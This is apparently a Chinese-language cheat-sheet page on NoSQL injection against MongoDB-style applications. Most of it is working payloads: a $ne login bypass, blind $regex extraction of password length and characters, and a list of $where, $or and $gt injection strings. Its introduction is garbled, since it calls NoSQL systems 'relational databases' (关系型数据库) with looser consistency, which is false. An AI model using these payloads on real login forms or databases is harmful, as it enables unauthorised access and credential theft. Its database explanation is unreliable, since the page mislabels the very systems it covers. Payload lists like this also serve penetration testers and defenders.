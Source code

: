 # 关系型数据库
关系型数据库相较传统数据库提供更宽松的一致性约束. 通过要求较少的关系约束和一致性检查, 关系型数据库通常提供性能和扩展性的好处. 然而，这些数据库仍然可能受到注入攻击，即使他们不使用传统的SQL语法.

## 开拓
 
基本验证旁路使用不相等 ($ne)
```
username[$ne]=toto&password[$ne]=toto
```
 
提取长度信息
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```
 
提取数据信息
```
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*
```

## MongoDB的有效载荷
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```


## 感谢
* https://www.dailysecurity.fr/nosql-injections-classique-blind/
* https://www.owasp.org/index.php/Testing_for_NoSQL_injection
* https://github.com/cr0hn/nosqlinjection_wordlists
